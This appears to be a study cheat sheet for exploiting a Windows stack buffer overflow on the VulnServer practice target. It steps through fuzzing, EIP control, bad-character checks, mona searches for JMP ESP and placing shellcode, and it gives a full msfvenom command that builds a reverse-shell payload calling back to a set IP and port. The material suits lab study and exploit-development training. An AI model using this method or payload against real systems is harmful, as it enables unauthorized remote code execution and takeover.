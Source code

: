 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
```
           msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 EXITFUNC=thread > revshellwin.py
```
    B. Remember to add at least 16 nops in front of the shellcode or it won't work!

5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: 
```
           !mona modules
```
    C. Second find the instruction inside unprotected module, e.g. 
```
           !mona find -s "\xff\xe4" -m VulnServer.exe
```    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
```    
           add eax, $offset
           jmp eax
```    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
